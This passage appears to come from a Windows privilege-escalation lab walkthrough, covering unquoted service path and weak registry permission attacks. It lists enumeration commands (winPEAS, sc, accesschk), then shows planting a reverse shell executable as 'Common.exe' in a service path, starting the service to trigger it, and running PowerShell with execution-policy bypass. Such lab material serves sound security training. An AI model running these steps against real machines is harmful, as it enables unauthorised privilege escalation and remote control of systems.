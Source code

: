 1. Run winPEAS to check for service misconfigurations:

```
> .\winPEASany.exe quiet servicesinfo
```

2. Note that the “unquotedsvc” service has an unquoted path that also contains spaces: C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
3. Confirm this using sc:

```
> sc qc unquotedsvc
```

4. Use accesschk.exe to check for write permissions:

```
> .\accesschk.exe /accepteula -uwdq C:\
> .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
> .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

5. Copy the reverse shell executable and rename it appropriately:

```
> copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

6. Start a listener on Kali, and then start the service to trigger the exploit:

```
> net start unquotedsvc
```

7. You could also need to reboot the machine to restart the service:

```
shutdown /r /t 0
```

### <mark style="color:blue;">Weak Registry Permissions</mark>

The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.

1. Run winPEAS to check for service misconfigurations:

```
> .\winPEASany.exe quiet servicesinfo
```

2. Note that the “regsvc” service has a weak registry entry. We can confirm this with PowerShell:

```
> powershell -exec bypass
```

```
PS> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```
